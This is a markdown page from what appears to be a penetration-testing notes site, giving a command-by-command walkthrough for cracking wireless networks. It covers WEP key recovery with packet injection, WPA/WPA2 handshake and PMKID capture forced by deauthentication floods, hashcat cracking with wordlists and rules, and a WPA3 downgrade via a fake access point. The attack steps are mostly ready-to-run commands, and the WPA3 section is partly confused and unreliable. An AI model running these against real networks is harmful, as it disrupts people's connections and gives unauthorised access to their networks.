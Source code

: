 ```yaml
---
title: Wireless
layout: page
parent: network
---
```


# Wireless

<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
1. TOC
{:toc}
</details>

---

## Setup

### Monitor mode

First off, you need to set up your wifi interface in monitor mode. To do so, you
need to know the name of your wifi interface. You can find it by running the
following command:

```bash
ip addr
```

This will list all the network interfaces on your system. Look for the one that
corresponds to your wifi adapter. It is usually named `wlan0`, `wlan1`, `wlo1`
or something similar. Once you have identified your wifi interface, you can set
it to monitor mode using the following commands :

```bash
sudo airmon-ng check kill
interface="wlo1"
sudo airmon-ng start "${interface}"  # start monitor mode
interface="${interface}mon"
```

### Network scanning

Now, you can scan for wifi networks using the following command:

```bash
sudo airodump-ng "${interface}"
```

or

```bash
sudo airodump-ng "${interface}" --essid "MyNetworkName"
```

This will display a list of all the wifi networks in range, and note the BSSID
(MAC address) and channel of the target network.

```bash
channel="6" # 11, ...
bssid="AA:BB:CC:DD:EE:FF"
```

## WEP cracking

### Capture packets

To crack WEP, you need to capture packets from the target network. You can do
this using the following command:

```bash
sudo airodump-ng --channel "$channel" --bssid "$bssid" --write outputdump "$interface"
```

You want a lot of Data packets (not just Beacons).

### Speed up the process

To speed up the process, you can use the following command to inject packets
into the network:

```bash
sudo aireplay-ng --fakeauth 0 -a "$bssid" "$interface"
```

This will authenticate you to the network and allow you to capture more packets,
then you can use the following command to generate ARP requests:

```bash
sudo aireplay-ng --arpreplay -b "$bssid" "$interface"
```

This will generate a lot of traffic and help you capture more packets.

### Cracking the WEP key

Once you have captured enough packets (at least 50000 IVs, recommended 200000),
you can crack the WEP key using the following command:

```bash
aircrack-ng outputdump
```

This will attempt to crack the WEP key using the captured packets. If
successful, it will display the WEP key in the terminal.

## WPA/WPA2 cracking

### Option 1 (easier)

To crack WPA/WPA2, you need to capture a 4-way handshake. To do so, you have to
capture the handshake when a client connects to the network, so start the
airodump-ng command to capture packets:

```bash
sudo airodump-ng --channel "$channel" --bssid "$bssid" --write out "$interface"
```

If a client is connected to the network, you will see the handshake in the
terminal. If not, you can use the following command to deauthenticate a client
and force it to reconnect in another terminal:

```bash
sudo aireplay-ng --deauth 10 -a "$bssid" "$interface"
# or
sudo aireplay-ng --deauth 10 -a "$bssid" -c "$station" "$interface"
```

Once you have captured the handshake, you can crack the WPA/WPA2 key using a
wordlist. You can use the following command to crack the key:

```bash
aircrack-ng -w <wordlist> capture.pcap
```

This will attempt to crack the WPA/WPA2 key using the wordlist provided. If
successful, it will display the WPA/WPA2 key in the terminal. Note that if the
ESSID is hidden, you will need to use the `-e` option to specify the ESSID when
cracking the key.

### Option 2 (harder but better)

A way faster and more successful alternative to the previous method is to use
`hcxdumptool` to capture the handshake or the PMKID and then crack it with
`hashcat`. This makes it more likely to succeed than the previous method since
we could only use the handshake with it, and this method allows us to use
`hashcat` to crack the hash which is way faster than `aircrack-ng`.

First, we need to do a dump using `tcpdump` :

```bash
sudo tcpdump -s 65535 -y IEEE802_11_RADIO "wlan addr3 $bssid or wlan addr3 ffffffffffff" -ddd > output.bpf
```

Then, we can use `hcxdumptool` to capture the handshake or the PMKID, and it is
mandatory to add band information to the channel number (e.g. 12a):

- band a: NL80211_BAND_2GHZ
- band b: NL80211_BAND_5GHZ
- band c: NL80211_BAND_6GHZ

Thus, you can use the following command:

```bash
band="a" # or b,c
sudo hcxdumptool -i "$interface" -c "$channel$band" --bpf=output.bpf -w output.pcapng
```

This will create a pcapng file with the captured packets, you need to wait for
either the EAPOL handshake symbolized by the '3' or the PMKID symbolized by the
'P' to have a + under them to know that you have captured one of them, allowing
you to try to crack the hash.

You can use the following command to deauthenticate a client and force it to
reconnect in another terminal:

```bash
# To broadcast:
sudo aireplay-ng --deauth 0 -a "$bssid" "$interface"
# or
sudo aireplay-ng --deauth 0 -a "$bssid" -c "$station" "$interface"
```

Now, we need to convert the pcapng file to the specific hash that `hashcat` can
use. To do this, we can use the following command:

```bash
hcxpcapngtool -o output.hc22000 output.pcapng
```

Finally, we can use [`hashcat`](https://n4c.hadi.diy/cracking/hash.html#hashcat)
to crack the hash. You will need to import the `cracking` module. You can use
the following command to try to crack the hash using a wordlist and a rule file,
but bruteforce is also possible for wireless cracking.

```bash
hashcat -m 22000 -a 0 -o output -r /tmp/OneRuleToRuleThemStill/OneRuleToRuleThemStill.rule output.hc22000 /tmp/wordlists/passwords/most_used_passwords.txt -w 4 --opencl-device-types 1,2
```

## WPA3 downgrade

Note that this only allows us to shutdown traffic on the network, but not to
capture the handshake. To do this, we need to change our approach on the WPA2 AP
part.

### Capture packets

To crack WPA3, you need to capture packets from the target network. You can do
this using the following command:

```bash
sudo airodump-ng --channel "$channel" --bssid "$bssid" "$interface"
```

### Deauthenticate a client

To deauthenticate a client and force it to reconnect, you can use the following
command:

```bash
sudo aireplay-ng --deauth 0 -a "$bssid" "$interface"
# or
sudo aireplay-ng --deauth 0 -a "$bssid" -c "$station" "$interface"
```

### Fake a WPA2 AP

To fake a WPA2 AP, you can use the following command:

```bash
sudo airbase-ng -e "$ssid" -c "$channel" -P -C 30 -Z 4 "$interface"
```

This will create a fake AP with the specified SSID and channel, however, this is
not a true WPA2 AP, which does not allow us to capture the handshake. To do
this, we need to use a different method. This is the only thing missing to make
WPA3 cracking work.

Conceal the WPA3 handshake by capturing it with airodump-ng:

```bash
sudo airodump-ng --channel "$channel" --bssid "$fake_bssid" --write out "$interface"
```

Once you have captured the handshake, you can crack the WPA3 key using a
wordlist. You can use the following command to crack the key:

```bash
aircrack-ng -w "$wordlist" output.pcap
```

This will attempt to crack the WPA3 key using the wordlist provided. If
successful, it will display the WPA3 key in the terminal.

## Resetting the interface

Once you are done with the cracking, you can reset your wifi interface to its
normal mode using the following command:

```bash
sudo airmon-ng stop "$interface"
```

This will stop the monitor mode and reset the interface to its normal mode. You
can also use the following command to restart the network manager:

```bash
sudo systemctl restart NetworkManager
```

This will restart the network manager and allow you to connect to wifi networks
again. If you are using a different network manager, rebooting your system
should also work.
